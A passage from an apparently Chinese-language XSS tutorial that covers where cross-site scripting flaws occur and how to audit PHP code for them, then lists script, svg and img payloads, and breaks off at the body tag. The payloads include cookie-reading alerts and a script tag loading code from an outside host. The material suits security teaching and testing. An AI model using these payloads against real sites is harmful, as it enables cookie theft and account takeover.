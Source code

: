 - URL的每一个参数
- URL本身
- 表单
- 搜索框

### 常见业务场景

- 重灾区：评论区、留言区、个人信息、订单信息等
- 针对型：站内信、网页即时通讯、私信、意见反馈
- 存在风险：搜索框、当前目录、图片属性等

### 白盒测试(代码审计)
关于XSS的代码审计主要就是从接收参数的地方和一些关键词入手。
PHP中常见的接收参数的方式有$_GET、$_POST、$_REQUEST等等，可以搜索所有接收参数的地方。然后对接收到的数据进行跟踪，看看有没有输出到页面中，然后看输出到页面中的数据是否进行了过滤和html编码等处理。
也可以搜索类似echo这样的输出语句，跟踪输出的变量是从哪里来的，我们是否能控制，如果从数据库中取的，是否能控制存到数据库中的数据，存到数据库之前有没有进行过滤等等。
大多数程序会对接收参数封装在公共文件的函数中统一调用，我们就需要审计这些公共函数看有没有过滤，能否绕过等等。
同理审计DOM型注入可以搜索一些js操作DOM元素的关键词进行审计。
## XSS 相关payload
xss 主要是针对浏览器客户端的一种攻击，那么需要执行JavaScript代码，那么无疑需要使用到JavaScript语言以及在HTML中可以加载JavaScript的标签
### 标签类
#### script

`<script></script>` 标签是最直接的XSS payload，`<script></script>`标签可以在浏览器渲染DOM树的时候同步执行`JavaScript`代码，他可以引用外部，也可以将代码插入标签内

```html
<script>alert("xss")</script>
<script>alert(/xss/)</script>
<script>alert(1)</script>
<script>alert(document.cookie)</script>
<script src=http://xxx.com/xss.js></script>
```
#### svg
`<svg></svg>`  标签是标记定义 SVG 图形的容器，其在onload方法中是在 SVG 容器初始化的时候执行代码

```html
<svg onload="alert(1)">
<svg onload="alert(1)">
```
#### img
`<img />`标签是加载图片资源的标签，其在无法加载图片资源的时候会执行onerror方法

```html
<img src=1 οnerrοr=alert("/xss/")>
<img src=1 οnerrοr=alert(document.cookie)>
<img src="正确图片地址" onload="alert(/xss/)" />
```
#### body
`<body></body> ` 是定义HTML文档的主体。其包含文档的所有内容（比如文本、超链接、图像、表格和列表等等。）
